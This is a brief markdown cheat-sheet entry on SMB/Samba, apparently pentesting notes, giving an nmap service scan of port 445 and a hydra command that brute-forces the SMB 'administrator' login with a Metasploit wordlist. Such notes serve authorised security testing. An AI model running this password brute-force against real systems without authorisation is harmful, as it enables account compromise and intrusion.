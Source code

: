 # SMB/Samba
- Basic nmap scan.
```
nmap -Pn -sV -sC -p445 <ip>
```

- Brute-force SMB login.
```
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> smb
```

